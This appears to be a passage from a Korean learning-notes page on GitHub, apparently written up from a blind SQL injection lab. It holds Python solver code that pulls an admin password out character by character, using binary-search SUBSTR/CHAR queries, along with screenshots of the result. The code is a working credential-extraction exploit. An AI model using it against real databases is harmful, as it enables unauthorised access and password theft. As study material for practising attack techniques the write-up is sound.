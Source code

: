 ```python
    # 한 글자씩 비밀번호를 알아냄
    def _find_password(self, user: str, pw_len: int) -> str:
        pw = ''
        for idx in range(1, pw_len+1):
            query_tmpl = f"((SELECT SUBSTR(userpassword,{idx},1) WHERE userid=\"{user}\") < CHAR({{val}}))"
            pw += chr(self._sqli_lt_binsearch(query_tmpl, 0x2f, 0x7e)) # 이진 탐색 알고리즘을 사용하여 시간을 단축하고 있음
            print(f"{idx}. {pw}")
        return pw
    
    
    def solve(self) -> None:
        # Find the length of admin password
        pw_len = solver._find_password_length("admin")
        print(f"Length of the admin password is: {pw_len}")
        # Find the admin password
        print("Finding password:")
        pw = solver._find_password("admin", pw_len)
        print(f"Password of the admin is: {pw}")
        
        
if __name__ == "__main__":
    port = sys.argv[1]
    solver = Solver(port)
    solver.solve()	
```


* Blind SQL Injection 수행 결과
	<img width="1500" alt="blindsqli_result" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/44994f43-e77d-413d-8ddf-663137265244">
	- 접속 정보
		<img width="1058" alt="blindsqli_접속정보" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/10aee6e9-fb33-4afb-95ce-a45e069a97eb">

